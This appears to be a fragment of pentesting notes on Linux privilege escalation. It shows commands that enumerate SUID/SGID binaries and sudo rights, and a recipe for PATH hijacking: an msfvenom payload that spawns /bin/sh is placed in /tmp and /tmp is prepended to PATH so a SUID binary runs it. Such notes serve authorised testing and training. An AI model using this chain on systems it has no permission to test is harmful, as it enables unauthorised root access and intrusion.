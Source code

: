 ## list gpg keys
```
gpg --list-keys
```


# SUID Binaries
```
# find SUID enabled files 
find / -perm -u=s -type f 2>/dev/null
# or
find / -perm +4000 -type f 2>/dev/null
```

## find SGID enabled files
```
find / -perm /2000 -ls 2>/dev/null
# or
find / -perm +8000 -ls 2>/dev/null
```

## search on
https://gtfobins.github.io  

## if unusual binary has SUID set, check for script calls without absolute path
```
strings <binary>
```

## generate shell
```
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o <file>
# or
msfvenom -p linux/x64/exec CMD=/bin/sh -f elf -o <file>
```

## download to /tmp and set execution bit
```
chmod 755 <file>
```

## set new environment variable and execute unusual binary
```
export PATH=/tmp:$PATH
```


# Sudo
```
# show all available sudo commands
sudo -l
```
